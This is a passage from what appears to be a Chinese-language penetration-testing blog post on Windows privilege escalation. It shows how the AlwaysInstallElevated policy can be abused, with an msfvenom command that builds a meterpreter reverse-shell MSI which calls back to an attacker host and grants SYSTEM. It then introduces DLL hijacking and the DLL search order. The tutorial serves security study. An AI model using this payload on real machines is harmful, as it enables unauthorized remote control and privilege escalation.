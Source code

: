 注意:熟练的用户可以利用该设置授予的权限来更改其特权并获得对受限文件和文件夹的永久访问权。请注意，这个设置的“用户配置”版本不一定安全。

![](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-10-08/0x20.png)
默认情况下是`“Not Configured”`，如果是`“Enabled”`，可以直接利用于特权提升。

这个配置项对应的注册表路径为：

* HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\windows\Installer
* HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer

![](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-10-08/0x21.png)
### 提权过程

首先我们需要生成一个MSI木马：

```sh
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.117.134 LPORT=443 -f msi-nouac -o lask.msi
```

开启一个监听：

![](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-10-08/0x22.png)
将lask.msi复制到Windows中，运行后即可获得SYSTEM权限。

![](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-10-08/0x23.png)
参考学习：https://www.anquanke.com/post/id/87


## 0x05 DLL劫持提权

之前写过关于DLL劫持的几篇文章，涵盖了原理、分析过程、技巧。

* [QQ拼音输入法6.0最新版DLL劫持 - 可利用于提权](http://payloads.online/archivers/2018-06-09/1)
* [Microsoft DirectX SDK June 2010 Xact3.exe DLL Hijacking复现](http://payloads.online/archivers/2018-08-15/1)

有点懒了，基础知识我就照搬我博客的吧！

### DLL劫持简介

《DLL劫持》技术当一个可执行文件运行时，Windows加载器将可执行模块映射到进程的地址空间中，加载器分析可执行模块的输入表，并设法找出任何需要的DLL，并将它们映射到进程的地址空间中。 – 百度百科
应用程序寻找DLL的过程

* 1.程序所在目录
* 2.系统目录即 SYSTEM32 目录
* 3.16位系统目录即 SYSTEM 目录
* 4.Windows目录
* 5.加载 DLL 时所在的当前目录
* 6.PATH环境变量中列出的目录

首先如果在程序所在目录下未寻找到DLL，一般会在SYSTEM32目录下寻找到，那么可能会存在DLL劫持，要看注册表

`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\KnownDLLs`
